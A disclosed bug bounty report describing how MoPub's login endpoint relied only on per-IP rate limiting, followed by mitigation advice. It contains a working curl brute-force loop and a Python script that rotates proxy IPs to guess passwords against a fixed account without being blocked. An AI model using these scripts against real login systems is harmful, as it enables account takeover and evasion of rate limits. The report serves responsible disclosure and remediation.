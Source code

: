 # Ability to bruteforce mopub account’s password due to lack of rate limitation protection using {ip rotation techniques}

## Report Details
- **Report ID**: 819930
- **URL**: https://hackerone.com/reports/819930
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-03-16T06:31:29.981Z
- **Disclosed**: 2020-07-10T17:21:54.216Z

## Reporter
- **Username**: updatelap
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
## Summary
I tried to guess on my account. I sent out nearly 1,000 requests, and I was virtually banned on request about 120. But when I changed my IP and tried logging in, I was logged into the account without any additional checks 

## Description:*

Your web authentication endpoint, https://app.mopub.com/web-client/api/user/login, (POST), currently protects against credentials brute-force attacks only by requests rate-limiting based on IP.  This bug could allow an attacker to bruteforce the password of mopub users. This happens because mopub developer not set rate limitation protection in login page

## Reproduction

To test this, send a POST request to "https://app.mopub.com/web-client/api/user/login" with the following parameters in the body:

```
{"username":"TARGET@exmple.com","password":"HACKEDP@SS"}
```

Using curl, we can run an attack against a list of password with a fixed username (in this example "TARGET@exmple.com"), You can use the following command to start guessing passwords from PASS_LIST Put in your list about 1000 passwords and start guessing. You will notice that you will be banned after several trials.

```
while read pass; do curl -i -s -k -X $'POST' -H $'Host: app.mopub.com' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/json' -H $'x-csrftoken: ███████' -H $'Origin: https://app.mopub.com' -H $'Referer: https://app.mopub.com/login?next=/' -H $'Cookie: csrftoken=███████; _ga=██████; mp__mixpanel=%7B%22distinct_id%22%3A%20%███%22%2C%22%24device_id%22%3A%20%███████%22%2C%22accountKey%22%3A%20%22%22%2C%22accessLevel%22%3A%20%22%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ██████_mixpanel=%7B%22distinct_id%22%3A%20%22██████████%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fapp.mopub.com%2Faccount%2Flogin%2F%22%2C%22%24initial_referring_domain%22%3A%20%22app.mopub.com%22%2C%22accessLevel%22%3A%20%22loggedOut%22%2C%22accountKey%22%3A%20null%2C%22__mps%22%3A%20%7B%7D%2C%22__mpso%22%3A%20%7B%7D%2C%22__mpus%22%3A%20%7B%7D%2C%22__mpa%22%3A%20%7B%7D%2C%22__mpu%22%3A%20%7B%7D%2C%22__mpr%22%3A%20%5B%5D%2C%22__mpap%22%3A%20%5B%5D%2C%22%24user_id%22%3A%20%22█████%22%2C%22%24had_persisted_distinct_id%22%3A%20true%2C%22%24device_id%22%3A%20%22████████%22%7D; mp_mixpanel__c=3' --data-binary $'{\"username\":\"alert.wids@gmail.com\",\"password\":\"$pass\"}'     $'https://app.mopub.com/web-client/api/user/login';done < PASS_LIST
```

__To bypass this protection__ a brute-force python script was developed that performs a login brute-force attack by rotating through these addresses, to never have a request refused. This effectively overcomes the IP-rate limiting and allows a full-fleged online brute-force attack at virtually unlimited speeds. 

```python
from proxy_requests.proxy_requests import ProxyRequests

class bcolors:
    BOLD = '\033[1m'
    CRED = '\033[91m'

Pass = ["12345","admin","user","root","love","love2020","uk2020","asdfg","qwerty12345","██████████","████████","█████","████","███","passwOrd","Password","████","█████████","R00T","█████████","███████","███████","████"]
array_length = len(Pass)

I = 0 
for I in range(array_length):
    r = ProxyRequests("https://app.mopub.com/web-client/api/user/login")
    r.set_headers({
        'x-csrftoken': '█████',
        'Origin': 'https://app.mopub.com',
        'Content-Type':'application/json',
        'Referer':'https://app.mopub.com/login?next=/',
        'Cookie': 'csrftoken=████████; _ga=█████; mp__mixpanel=%7B%22distinct_id%22%3A%20%████%22%2C%22%24device_id%22%3A%20%████████%22%2C%22accountKey%22%3A%20%22%22%2C%22accessLevel%22%3A%20%22%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ██████████_mixpanel=%7B%22distinct_id%22%3A%20%22████████%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fapp.mopub.com%2Faccount%2Flogin%2F%22%2C%22%24initial_referring_domain%22%3A%20%22app.mopub.com%22%2C%22accessLevel%22%3A%20%22loggedOut%22%2C%22accountKey%22%3A%20null%2C%22__mps%22%3A%20%7B%7D%2C%22__mpso%22%3A%20%7B%7D%2C%22__mpus%22%3A%20%7B%7D%2C%22__mpa%22%3A%20%7B%7D%2C%22__mpu%22%3A%20%7B%7D%2C%22__mpr%22%3A%20%5B%5D%2C%22__mpap%22%3A%20%5B%5D%2C%22%24user_id%22%3A%20%22██████%22%2C%22%24had_persisted_distinct_id%22%3A%20true%2C%22%24device_id%22%3A%20%22███████%22%7D; mp_mixpanel__c=3'
    })
    r.post_with_headers({'username':'alert.wids@gmail.com','password':''+Pass[I]+''})
    if r.get_status_code() == 401 or r.get_status_code() == 400:
       print (bcolors.CRED + "[*-*] Incorrect password: " + Pass[I] + " | Res_status: " + str(r.get_status_code()), " | IP_Proxy:" + str(r.get_proxy_used()) + "]"  )
    elif r.get_status_code() == 204:
       print (bcolors.BOLD + "[*u*] Correct password: " + Pass[I] + " | Res_status: " + str(r.get_status_code()), " | IP_Proxy:" + str(r.get_proxy_used()) + "]" )
    I+= 1
```

## Recommendation: 
Implement a Captcha after a reasonable number of failed login attempts against one account at the application-layer. The Captcha should not only be shown to offending IP addresses, but to anyone who attempts to login to the account under attack. Another option is to enable an account lockout policy which effectively locks down an account that has been attacked (e.g. after 20 failed consecutive logins) and requires out-of-band validation by the real account owner (e.g. email, mobile) before becoming accessible again.

Best regards,

## Impact

A malicious user could run this against a huge list of mopub password with a fixed username, after that attack is finished he changes the password.  An attacker can freely bruteforce any username and can takeover any account

## Attachments
No attachments
